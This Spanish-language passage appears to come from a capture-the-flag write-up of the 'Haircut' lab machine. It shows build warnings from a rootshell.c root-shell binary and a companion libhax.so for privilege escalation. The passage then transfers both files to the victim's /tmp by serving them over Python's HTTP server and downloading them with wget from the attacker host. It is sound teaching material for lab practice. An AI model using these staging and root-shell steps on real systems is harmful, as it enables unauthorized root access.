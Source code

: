 ```bash
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
❯ rm rootshell.c
```

De igual forma, nos salen unos **Warning**, pero no hay problema. Ahora tenemos de transferir los archivos resultantes a la máquina víctima en la ruta `/tmp/` y lo haremos compartiendo un servidor HTTP con python y la herramienta `wget`:

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.24 - - [18/Oct/2021 21:38:49] "GET /libhax.so HTTP/1.1" 200 -
10.10.10.24 - - [18/Oct/2021 21:38:58] "GET /rootshell HTTP/1.1" 200 -
```

```bash
www-data@haircut:/$ cd /tmp
www-data@haircut:/tmp$ wget http://10.10.14.16/libhax.so
--2021-10-19 04:43:40--  http://10.10.14.16/libhax.so
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16136 (16K) [application/octet-stream]
Saving to: 'libhax.so'

libhax.so                        100%[=======================================================>]  15.76K  --.-KB/s    in 0.1s    

2021-10-19 04:43:41 (114 KB/s) - 'libhax.so' saved [16136/16136]

www-data@haircut:/tmp$ wget http://10.10.14.16/rootshell
--2021-10-19 04:43:49--  http://10.10.14.16/rootshell
Connecting to 10.10.14.16:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16816 (16K) [application/octet-stream]
Saving to: 'rootshell'

rootshell                        100%[=======================================================>]  16.42K  --.-KB/s    in 0.1s    

2021-10-19 04:43:50 (119 KB/s) - 'rootshell' saved [16816/16816]

www-data@haircut:/tmp$
```
